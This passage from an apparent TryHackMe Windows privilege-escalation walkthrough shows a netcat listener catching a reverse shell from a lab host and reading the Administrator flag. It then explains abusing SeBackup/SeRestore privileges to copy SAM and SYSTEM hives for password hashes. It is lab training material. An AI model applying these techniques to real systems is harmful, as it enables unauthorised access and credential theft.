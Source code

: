 ```
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2616
        FLAGS              :

┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4447
listening on [any] 4447 ...
connect to [10.11.81.220] from (UNKNOWN) [10.10.90.7] 49926
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>more C:\Users\Administrator\Desktop\flag.txt         
more C:\Users\Administrator\Desktop\flag.txt
THM{INSECURE_SVC_CONFIG}

```

Get the flag on the Administrator's desktop.

*THM{INSECURE_SVC_CONFIG}*

### Abusing dangerous privileges 

Windows Privileges

Privileges are rights that an account has to perform specific system-related tasks. These tasks can be as simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.

Each user has a set of assigned privileges that can be checked with the following command:

`whoami /priv`

A complete list of available privileges on Windows systems is available [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants). From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the [Priv2Admin](https://github.com/gtworek/Priv2Admin) Github project.

While we won't take a look at each of them, we will showcase how to abuse some of the most common privileges you can find.

SeBackup / SeRestore

The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea behind this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges.

Having this power, an attacker can trivially escalate privileges on the system by using many techniques. The one we will look at consists of copying the SAM and SYSTEM registry hives to extract the local Administrator's password hash.

Log in to the target machine via RDP using the following credentials:
